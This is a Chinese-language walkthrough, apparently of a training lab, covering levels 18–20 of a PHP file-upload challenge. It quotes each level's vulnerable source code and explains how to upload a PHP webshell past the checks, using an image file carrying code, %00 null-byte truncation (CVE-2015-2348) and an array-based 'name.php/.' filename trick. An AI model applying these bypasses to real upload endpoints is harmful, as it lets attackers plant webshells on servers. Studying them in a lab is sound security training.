PS:过了很久不甘心，又跑了一遍写木马，成功了,55555
Pass-18
图片马直接上传成功了我滴个乖乖
Pass-19
move_uploaded_file() 00截断
主要利用PHP任意文件上传漏洞（CVE-2015-2348）
漏洞利用在于
move_uploaded_file($_FILES['name']['tmp_name'],"/file.php\x00.jpg");这本应该创建一个名为file.php\x00.jpg的文件，但实际上创建的文件是file.php。
源码
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
if (file_exists(UPLOAD_PATH)) {
$deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
$file_name = $_POST['save_name'];
$file_ext = pathinfo($file_name,PATHINFO_EXTENSION);
if(!in_array($file_ext,$deny_ext)) {
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH . '/' .$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$is_upload = true;
}else{
$msg = '上传出错！';
}
}else{
$msg = '禁止保存为该类型文件！';
}
} else {
$msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
}
}本题主要是没过滤文件名
所以在文件名上%00截断
ORZ没跑出来.phP，居然绕过了，哭唧唧
Pass-20
太难了，好难看
源码
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
//检查MIME
$allow_type = array('image/jpeg','image/png','image/gif');
if(!in_array($_FILES['upload_file']['type'],$allow_type)){
$msg = "禁止上传该类型文件!";
}else{
//检查文件名
$file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
if (!is_array($file)) {
$file = explode('.', strtolower($file));
}
$ext = end($file);
$allow_suffix = array('jpg','png','gif');
if (!in_array($ext, $allow_suffix)) {
$msg = "禁止上传该后缀文件!";
}else{
$file_name = reset($file) . '.' . $file[count($file) - 1];
$temp_file = $_FILES['upload_file']['tmp_name'];
$img_path = UPLOAD_PATH . '/' .$file_name;
if (move_uploaded_file($temp_file, $img_path)) {
$msg = "文件上传成功！";
$is_upload = true;
} else {
$msg = "文件上传失败！";
}
}
}
}else{
$msg = "请选择要上传的文件！";
}过程
最终的文件名后缀取的是$file[count($file) - 1]，因此我们可以让$file为数组。
$file[0]为smi1e.php/，也就是reset($file)，然后再令$file[2]为白名单中的jpg。
此时end($file)等于jpg，$file[count($file) - 1]为空。
而 $file_name = reset($file) . '.' . $file[count($file) - 1];，也就是Haha.php/.，最终move_uploaded_file会忽略掉/.，最终上传Haha.php。解题思路：（数组 + /. 绕过）